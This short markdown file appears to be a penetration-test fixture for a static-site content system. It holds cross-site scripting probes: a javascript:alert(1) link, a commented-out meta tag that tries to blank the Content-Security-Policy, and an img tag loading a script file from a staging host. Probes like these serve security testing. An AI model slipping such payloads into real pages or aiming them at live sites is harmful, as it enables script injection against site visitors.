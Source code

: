 ```yaml
---
title: Injected
permalink: /permalink
---
```

<!--aa<meta http-equiv="Content-Security-Policy" content="">-->

[hello](javascript:alert(1))

[Example Filename](/files/script1.js)

ad

<img src="https://isomer-vapt-3-staging.netlify.app/files/script1.js"></img>